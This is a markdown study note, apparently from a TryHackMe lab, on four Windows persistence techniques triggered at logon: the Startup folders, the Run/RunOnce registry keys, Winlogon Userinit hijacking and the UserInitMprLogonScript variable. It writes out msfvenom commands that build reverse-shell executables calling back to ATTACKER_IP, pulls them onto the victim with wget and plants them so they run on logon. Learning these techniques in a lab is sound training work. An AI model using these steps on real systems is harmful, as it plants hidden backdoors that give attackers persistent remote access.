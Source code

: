```yaml
---
title: 5. Logon Triggered Persistence 🚇
tags:
  - TryHackMe
  - Theory
---
```

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

## Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

```shell
user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

```shell
PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
```

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

```shell
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

![](Pasted%20image%2020240203115959.png)

And log back via RDP. You should immediately receive a connection back to your attacker's machine.

## Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

```shell
C:\> move revshell.exe C:\Windows
```

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note:** While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

![](Pasted%20image%2020240203120050.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

## Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.

![](Pasted%20image%2020240203120127.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell
C:\> move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

**Note:** While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

![](Pasted%20image%2020240203120212.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

## Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![](Pasted%20image%2020240203120310.png)

Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

